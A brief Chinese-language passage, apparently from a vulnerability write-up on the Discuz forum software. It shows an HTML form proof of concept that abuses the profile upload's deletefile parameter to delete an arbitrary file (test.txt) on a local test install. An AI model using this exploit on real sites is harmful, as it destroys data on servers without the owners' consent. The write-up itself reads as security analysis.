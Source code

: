 ![](Discuz漏洞分析\7.png)

然后构造表单，往该页面上传文件，任意图片即可

```html
<form action="http://localhost/discuz/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa" method="POST" enctype="multipart/form-data">
<input type="file" name="birthprovince" id="file" />
<input type="text" name="formhash" value="63b23997"/></p>
<input type="text" name="profilesubmit" value="1"/></p>
<input type="submit" value="Submit" />
</form>
```

然后test.txt被成功删除
